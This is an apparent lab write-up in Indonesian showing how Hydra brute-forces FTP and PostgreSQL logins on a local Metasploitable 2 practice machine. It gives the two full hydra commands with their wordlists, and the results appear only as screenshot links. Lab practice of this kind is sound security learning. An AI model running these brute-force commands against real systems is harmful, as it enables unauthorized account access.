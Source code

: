 # Hydra
- IP Metasploitable 2 di local: 192.168.1.114

## Brute Force FTP Credentials
- Gunakan perintah: `hydra -L user-metasploitable2.txt -P password-metasploitable2.txt 192.168.1.114 ftp`
- Username dan password yang ditemukan:

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/hydra/assets/hydra-ftp.JPG)

- Melakukan akses ke FTP Server:

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/hydra/assets/akses-ftp.JPG)

## Brute Force PostgreSQL Credentials
- Gunakan perintah: `hydra -L /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt -P /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt 192.168.1.114 postgres`
- Username dan password yang ditemukan:

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/hydra/assets/hydra-postgres.JPG)

- Melakukan akses ke PostgreSQL:

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/hydra/assets/akses-postgresql.JPG)